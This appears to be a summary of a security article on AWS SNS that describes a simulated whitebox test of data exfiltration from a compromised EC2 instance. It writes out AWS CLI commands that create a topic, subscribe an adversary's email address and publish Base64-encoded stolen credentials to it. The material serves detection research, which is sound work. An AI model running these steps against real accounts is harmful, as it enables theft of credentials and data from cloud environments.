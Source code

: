 ![alt text](<images/The Feed 2025-03-17_2.png>)
**AWS SNS Overview:** AWS SNS is a web service for sending and receiving notifications in the cloud, functioning as a publish/subscribe (pub/sub) service similar to Azure Web PubSub and GCP Pub/Sub. It supports two workflows: application-to-person (A2P) and application-to-application (A2A). This article primarily focuses on A2P workflows, where messages are delivered via SMS, email, or push notifications. Key features of SNS include **filter policies** allowing subscribers to receive specific message subsets, **server-side encryption (SSE)** using AWS KMS for data at rest, with in-transit encryption handled by protocols like HTTPS, **automatic delivery retries** and **Dead Letter Queues (DLQs)** for failed deliveries, and **scalability** to handle large message volumes. While powerful, SNS's versatility makes it susceptible to abuse.

**Whitebox Testing for Data Exfiltration:** The article details a whitebox test simulating data exfiltration via SNS. This involves an adversary gaining access to an EC2 instance with IAM role permissions for `sns:Publish`, `sns:Subscribe`, and `sns:CreateTopic`. The simulated attack follows these steps:
*   Discovery and staging of sensitive data on the EC2 instance.
*   Leveraging IMDSv2 and STS with the AWS CLI to obtain temporary credentials (though the instance's role already grants necessary permissions).
*   Creation of an SNS topic using the AWS CLI: `aws sns create-topic --name "whitebox-sns-topic" --query 'TopicArn' --output text`.
*   Subscription of an external email address to the created topic using the AWS CLI: `aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol email --notification-endpoint "adversary@protonmail.com"`.
*   Confirmation of the subscription via a link sent to the external email.
*   Publishing stolen, Base64 encoded data to the SNS topic using the AWS CLI: `aws sns publish --topic-arn "$TOPIC_ARN" --message "$BASE64_CONTENT" --subject "Encoded Credentials from EC2"`.
*   The external email address receives the exfiltrated data.

